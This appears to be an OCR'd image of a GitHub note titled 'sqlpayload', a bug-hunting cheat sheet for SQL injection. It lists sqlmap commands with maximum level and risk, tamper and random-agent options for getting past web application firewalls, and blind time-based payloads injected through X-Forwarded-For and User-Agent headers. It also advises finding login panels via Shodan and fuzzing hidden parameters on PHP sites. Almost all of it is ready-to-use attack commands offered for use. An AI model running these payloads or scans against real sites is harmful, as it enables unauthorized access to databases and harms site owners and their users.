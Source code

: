 # sqlpayload

* sqlmap.py -u “<URL>” --batch --banner

* On login / php website try sqli payloads 

* Use shodan for IP based login panels - try sqli

* always try sql injcetion on php site .php ending url guess hidden param with Arjun and try to perform there

* mostly try on hidden param finded with Arjun so try to guess more hidden param as possible throw fuzzing etc

# Bug : Blind SQL Injection
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

# waf bypass sqlmap

* sqlmap -u “url” -p parameter --level 5 --risk 3 --dbms="MySQL" --random-agent --test-filter="boolean-based blind"  --current-user --hostname

# sql injcetion tip

Application was using php ( whenever I see php , I test sqli first ) 
I tried blind sqli payload in login params  - not worked
sprayed in user-agent - worked✅

User-Agent: "XOR(if(now()=sysdate(),sleep(5),0))XOR"
===> 5.xx seconds delay


# sql injection tip

u can hunt post based param when if the URL has POST /hello/string/testing.php HTTP/1.1
 
python3 sqlmap.py --level=5 --risk=3 --tamper=space2comment --random-agent  -u https://█████████ --data="████████&██████" -p username --dbms=mysql 
  
